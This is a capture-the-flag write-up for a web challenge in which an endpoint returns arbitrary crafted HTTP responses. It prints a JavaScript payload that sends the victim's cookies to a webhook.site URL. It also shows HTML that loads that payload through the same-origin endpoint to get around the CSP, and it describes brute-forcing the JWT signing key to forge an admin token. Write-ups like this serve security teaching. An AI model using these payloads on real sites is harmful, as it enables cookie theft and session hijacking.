

# learn HTTP better
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Here there is a CSP which allows script with source same as host is allowed, we can formulate the javascript payload and pass the URL to js as the `src` ro the script.

```
HTTP/1.1 200 OK
Content-type: text/javascript
Content-length: 85

fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)
```

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 267

<script src="http://localhost:5001/resp?body=HTTP%2F1.1%20200%20OK%0D%0AContent-type%3A%20text%2Fjavascript%0D%0AContent-length%3A%2085%0D%0A%0D%0Afetch%28%60https%3A%2F%2Fwebhook.site%2F7c0b4f46-d927-4d8e-8601-3d70d049fe4c%3F%24%7Bdocument.cookie%7D%60%29"></script>
```



We get the token in the request, after bruting the signing key, we find it as `password`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{w0w_7hat_w4s_0ut_Of_th3_boX}`